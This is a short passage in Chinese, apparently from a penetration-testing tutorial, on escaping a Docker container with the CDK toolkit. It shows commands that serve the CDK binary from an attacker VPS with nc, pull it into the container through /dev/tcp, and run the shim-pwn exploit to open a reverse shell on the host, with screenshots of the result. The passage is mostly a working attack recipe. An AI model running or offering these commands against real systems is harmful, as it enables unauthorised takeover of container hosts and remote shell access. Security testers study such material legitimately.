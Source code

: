 接下来我们使用大名鼎鼎的 CDK

[https://github.com/cdk-team/CDK/wiki/CDK-Home-CN](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

如何将 CDK 上传到容器内部？

1.webshell 下直接上传

2.非 webshell 下的出网环境

```php
#vps 上面开启 nc
nc -lvp 999 <cdk

#容器内写入
cat < /dev/tcp/[vps-ip]/[vps-port] >cdk

#反弹宿主机 shell
chmod a+X cdk
./cdk run shim-pwn reverse [ip] [port]
```

vps 上面开启 nc

![](assets/1703484795-def333ece124b702fca03bdc42808d42.png)

反弹宿主机 shell

![](assets/1703484795-e3547bd35399d51c05574975245738ce.jpeg)

![](assets/1703484795-2d932e4fe82f7fe17bac3985fbe0078b.png)
